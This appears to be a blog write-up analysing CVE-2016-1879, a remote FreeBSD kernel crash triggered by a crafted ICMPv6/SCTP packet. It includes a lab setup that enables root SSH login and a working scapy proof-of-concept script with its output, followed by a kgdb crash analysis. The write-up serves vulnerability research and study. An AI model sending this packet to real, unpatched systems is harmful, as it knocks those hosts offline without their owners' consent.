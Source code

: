 ```yaml
---
layout:	   post
title:		 CVE-2016-1879 FreeBSD kernel crash
author:		 wooy0ung
tags:		   cve
category:  exploit
---
```


- 目录
{:toc #markdown-toc}

>[Analysis Environment]  
>system: FreeBSD 10.1 release amd64  
>attack machine: ubuntu 16.04.3 amd64  
>You can get more information in this website:   
>[FreeBSD Remote DoS Exploit](http://blog.ptsecurity.com/2016/01/severe-vulnerabilities-detected-in.html)  
<!-- more -->


reference to compile bsd kernel:
[]()

promise your bsd kernel can dump core after crashing
![](/assets/img/exploit/2018-05-04-cve-2016-1879/0x001.png)

open your bsd ssh permission  
![](/assets/img/exploit/2018-05-04-cve-2016-1879/0x002.png)  

change it into
```
$ vi /etc/ssh/sshd_config
PermitRootLogin yes
```

get mac & ipv6，-I argument means network card of your ubuntu
![](/assets/img/exploit/2018-05-04-cve-2016-1879/0x003.png)

poc.py
```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
 
import argparse
from scapy.all import *
 
def get_args():
    parser = argparse.ArgumentParser(description='#' * 78, epilog='#' * 78)
    parser.add_argument("-m", "--dst_mac", type=str, help="FreeBSD mac address")
    parser.add_argument("-i", "--dst_ipv6", type=str, help="FreeBSD IPv6 address")
    parser.add_argument("-I", "--iface", type=str, help="Iface")
    options = parser.parse_args()
 
    if options.dst_mac is None or options.dst_ipv6 is None:
        parser.print_help()
        exit()
 
    return options
 
if __name__ == '__main__':
    options = get_args()
 
    sendp(Ether(dst=options.dst_mac) / IPv6(dst=options.dst_ipv6) / ICMPv6DestUnreach() / IPv6(nh=132,
                                                                                               src=options.dst_ipv6,
                                                                                               dst='fe80::230:56ff:fea6:648c'),
          iface=options.iface)
```

execute poc.py bsd will crash，and crash files generated in /var/crash
```
$ python poc.py -m 00:0c:29:b9:1f:0b -i fe80::20c:29ff:feb9:1f0b -I ens33
.
Sent 1 packets.
```

ICMPv6DestUnreach()：send a error icmp package
IPv6(nh=132,...)：nexthread=132
![](/assets/img/exploit/2018-05-04-cve-2016-1879/0x004.png)

cd to /usr/obj/usr/src/sys/MYKERNEL/，and launch kgdb to debug crash core
```
$ kgdb kernel.debug /var/crash/vmcore.1 
```
input "bt" to get stack backtrace
![](/assets/img/exploit/2018-05-04-cve-2016-1879/0x005.png)

![](/assets/img/exploit/2018-05-04-cve-2016-1879/0x006.png)
open /usr/src/sys/kern/uipc_mbuf.c
```
/*
 * Copy data from an mbuf chain starting "off" bytes from the beginning,
 * continuing for "len" bytes, into the indicated buffer.
 */
void
m_copydata(const struct mbuf *m, int off, int len, caddr_t cp)
{
  u_int count;

  KASSERT(off >= 0, ("m_copydata, negative off %d", off));
  KASSERT(len >= 0, ("m_copydata, negative len %d", len));
  while (off > 0) {
    KASSERT(m != NULL, ("m_copydata, offset > size of mbuf chain"));//第一个m的assert
    if (off < m->m_len)
      break;
    off -= m->m_len;
    m = m->m_next;
  }
  while (len > 0) { //884行
    KASSERT(m != NULL, ("m_copydata, length > size of mbuf chain")); //885行
        //这里以下不重要
        //这里以下不重要
    count = min(m->m_len - off, len);
    bcopy(mtod(m, caddr_t) + off, cp, count);
    len -= count;
    cp += count;
    off = 0;
    m = m->m_next;
  }
}
```
kernel stop by "while(len > 0) { KASSERT(m != NULL...)..."，maybe m=m->m_next <-- 0

backtrace to last function
![](/assets/img/exploit/2018-05-04-cve-2016-1879/0x007.png)

open /usr/src/sys/netinet6/sctp6_usrreq.c
```
void sctp6_ctlinput(int cmd, struct sockaddr *pktdst, void *d)
{
  struct sctphdr sh;
  struct ip6ctlparam *ip6cp = NULL;
  uint32_t vrf_id;

  vrf_id = SCTP_DEFAULT_VRFID;

  if (pktdst->sa_family != AF_INET6 ||
      pktdst->sa_len != sizeof(struct sockaddr_in6))
    return;

  if ((unsigned)cmd >= PRC_NCMDS)
    return;
  if (PRC_IS_REDIRECT(cmd)) {
    d = NULL;
  } else if (inet6ctlerrmap[cmd] == 0) {
    return;
  }
  /* if the parameter is from icmp6, decode it. */
  if (d != NULL) {
    ip6cp = (struct ip6ctlparam *)d;
  } else {
    ip6cp = (struct ip6ctlparam *)NULL;
  }

  if (ip6cp) {
    /*
     * XXX: We assume that when IPV6 is non NULL, M and OFF are
     * valid.
     */
    /* check if we can safely examine src and dst ports */
    struct sctp_inpcb *inp = NULL;
    struct sctp_tcb *stcb = NULL;
    struct sctp_nets *net = NULL;
    struct sockaddr_in6 final;

    if (ip6cp->ip6c_m == NULL)
      return;

    bzero(&sh, sizeof(sh));
    bzero(&final, sizeof(final));
    inp = NULL;
    net = NULL;
    m_copydata(ip6cp->ip6c_m, ip6cp->ip6c_off, sizeof(sh),
        (caddr_t)&sh);
    
        ...
        后面不重要
```
type of "d" change by "ip6cp = (struct ip6ctlparam *)d"

get "ip6cp",and we can confirm "m->m_next=NULL"，and "len=88"
![](/assets/img/exploit/2018-05-04-cve-2016-1879/0x008.png)

because of triggering KASSERT，kernel would crash